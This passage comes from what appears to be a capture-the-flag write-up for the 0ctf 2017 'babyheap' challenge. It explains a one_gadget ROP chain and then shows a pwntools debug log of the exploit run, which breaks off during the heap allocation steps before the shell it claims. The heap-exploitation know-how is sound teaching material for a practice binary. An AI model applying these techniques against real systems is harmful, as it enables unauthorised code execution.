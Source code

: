 Which will be used to satisfy the first one_gadget - gadget constraint.
And the second gadget will be the one_gadget address.
The rop will look like this on the stack:
![20230420225755](https://user-images.githubusercontent.com/121199478/233637721-16ccba21-d3c6-4679-ab9c-164b80f20489.png)


# Running the exploit
Putting it all together, we pop a shell:
``` Python LOG
  io.recvuntil("Command:")
[DEBUG] Received 0x53 bytes:
    b'===== Baby Heap in 2017 =====\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:31: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("1")
[DEBUG] Sent 0x2 bytes:
    b'1\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:32: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(str(size))
[DEBUG] Sent 0x3 bytes:
    b'40\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:33: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil("Command:")
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 0\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'152\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 1\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'152\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 2\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
```